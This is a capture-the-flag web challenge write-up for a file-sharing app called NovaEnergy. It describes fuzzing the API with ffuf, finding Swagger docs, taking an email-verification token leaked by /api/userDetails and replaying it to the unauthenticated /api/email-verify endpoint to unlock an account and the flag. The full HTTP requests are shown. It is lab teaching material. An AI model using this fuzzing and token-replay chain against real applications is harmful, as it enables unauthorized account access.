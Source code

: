 ﻿# NovaEnergy - HackTheSystemCTF

- NovaEnergy is a internal web application used for file sharing system. This site can only be accessed by employee of NovaEnergy company. You're tasked to hunt for any vulnerabilities that led to any breaches in their site.

![[../../../assets/Pasted image 20251015170211.png]]
- When creating an account:
    - Your email must be of the 'gonuclear.com' domain.
	- You must verify your account via an e-mail.
- There is this /static/api.js file that contains some interesting endpoints, especially the `/api/email-verify` (the last one), which can be requested **without any kind authentication**.
``` js
// API client module - calls FastAPI backend directly
const API = {
    baseURL: '/api', // Direct FastAPI URL

    // Make authenticated API request
    async request(endpoint, options = {}) {
        const url = `${this.baseURL}${endpoint}`;
        const headers = {
            ...Auth.getAuthHeaders(),
            ...options.headers
        };

        const config = {
            ...options,
            headers
        };

        try {
            const response = await fetch(url, config);
            
            // Handle authentication errors
            if (response.status === 401) {
                Auth.removeToken();
                window.location.href = '/login';
                throw new Error('Authentication required');
            }

            const data = await response.json();
            
            if (!response.ok) {
                throw new Error(data.detail || data.error || `HTTP error! status: ${response.status}`);
            }

            return data;
        } catch (error) {
            console.error('API request failed:', error);
            throw error;
        }
    },

    // Get user files
    async getFiles() {
        return this.request('/files');
    },

    // Upload file(s)
    async uploadFile(file) {
        const formData = new FormData();
        formData.append('file', file);

        return this.request('/files/upload', {
            method: 'POST',
            body: formData,
            headers: {
                // Don't set Content-Type for FormData, let browser set it
                'Authorization': `Bearer ${Auth.getToken()}`
            }
        });
    },

    // Download file
    async downloadFile(fileId) {
        const url = `${this.baseURL}/files/${fileId}/download`;
        const response = await fetch(url, {
            headers: Auth.getAuthHeaders()
        });

        if (!response.ok) {
            throw new Error('Download failed');
        }

        // Get filename from Content-Disposition header if available
        const contentDisposition = response.headers.get('Content-Disposition');
        let filename = `file_${fileId}`;
        
        if (contentDisposition) {
            const filenameMatch = contentDisposition.match(/filename="(.+)"/);
            if (filenameMatch) {
                filename = filenameMatch[1];
            }
        }

        const blob = await response.blob();
        Utils.downloadBlob(blob, filename);
    },

    // Delete file
    async deleteFile(fileId) {
        return this.request(`/files/${fileId}`, {
            method: 'DELETE'
        });
    },

    // Get file details
    async getFile(fileId) {
        return this.request(`/files/${fileId}`);
    },

    // Get user profile/info
    async getUserInfo() {
        // This would be implemented if the API has a user info endpoint
        // For now, return mock data based on stored email
        return {
            email: localStorage.getItem('userEmail'),
            name: localStorage.getItem('userEmail')?.split('@')[0] || 'User'
        };
    },

    //  Verify email with token
    async verifyEmail(email, token) {
        return this.request('/email-verify', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                email: email,
                token: token
            })
        });
    }
};
```

- I didn't find anything interesting, so I decided to bruteforce `/api` using ffuf and found `/api/docs`
``` bash
 varanda@debian~CTF/HTB/Challs/Web/NovaEnergy$ ffuf -u http://94.237.57.115:32271/api/FUZZ -w dirlist.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
       
[....] <Removed useless output>

files                   [Status: 401, Size: 30, Words: 2, Lines: 1]
docs                    [Status: 200, Size: 962, Words: 152, Lines: 31]
redoc                   [Status: 200, Size: 910, Words: 178,
[...] 
```

![[../../../assets/Pasted image 20251015150627.png]]

- Great! It's a **swagger** template, which allows me to see the avialable endpoints and to make requests from the UI. Here I see that there is a `/api/userDetails` endpoint. I send the request and got my **verify-token** as part of the response.

``` http
POST /api/userDetails HTTP/1.1
Host: 94.237.57.115:32271
Content-Length: 35
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.57.115:32271
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"varanda@gonuclear.com"}
```

```json
{
  "id": 7,
  "email": "varanda@gonuclear.com",
  "is_verified": false,
  "created_at": "2025-10-15T13:49:10.957310",
  "verifyToken": "e1840346-389c-45f9-b961-a38f25051275",
  "last_login": null
}
```

- I'll now use the unauthenticated  `/api/email-verify` I found before and verify my account.
``` http
POST /api/email-verify HTTP/1.1
Host: 94.237.57.115:32271
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 90

{
	"email": "varanda@gonuclear.com",
	"token": "e1840346-389c-45f9-b961-a38f25051275"
}
```

``` http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 15 Oct 2025 13:58:37 GMT
Content-Type: application/json
Content-Length: 41
Connection: keep-alive

{"message":"Email verified successfully"}
```

- After doing this, I am able to login with the user I created and in the user dashboard we see the **flag.txt** file ready to be downloaded.

![[../../../assets/Pasted image 20251015171455.png]]


writeup by varanda - 15/10/2025